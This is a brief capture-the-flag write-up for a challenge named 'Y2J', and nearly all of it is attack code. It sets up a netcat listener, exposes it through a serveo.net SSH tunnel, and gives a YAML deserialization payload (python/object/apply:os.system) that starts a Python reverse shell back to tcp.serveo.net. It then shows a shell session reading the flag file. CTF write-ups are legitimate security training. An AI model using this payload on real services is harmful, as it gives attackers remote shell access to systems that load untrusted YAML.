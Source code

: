 ## Y2J

`nc -lvnp PORT`
`ssh -R PORT:localhost:PORT serveo.net`

```yaml
!!python/object/apply:os.system
args: ["python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"tcp.serveo.net\",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"]
```

```
user@Y2J:/$ cat /flag.txt
flag{b20870a1955ac22377045e3b2dcb832a}
```
